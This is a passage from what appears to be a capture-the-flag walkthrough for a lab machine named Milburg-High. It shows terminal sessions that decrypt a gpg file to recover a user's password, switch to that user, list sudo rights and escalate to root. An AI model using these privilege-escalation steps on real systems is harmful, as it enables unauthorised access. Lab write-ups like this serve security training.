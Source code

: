 ```bash
                                                                                                                                                                   
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ gpg --decrypt login.txt.gpg
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
bob:b0bcat_
```

### 5. Escalate to root
Switch over to bob. Checking the sudo permissions, bob can run anything as root.
```bash
www-data@Milburg-High:/var/www/html$ su - bob
Password: b0bcat_

bob@Milburg-High:~$ sudo -l
[sudo] password for bob: b0bcat_

Matching Defaults entries for bob on Milburg-High:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bob may run the following commands on Milburg-High:
    (ALL : ALL) ALL
bob@Milburg-High:~$ sudo -i
root@Milburg-High:~# whoami
root
```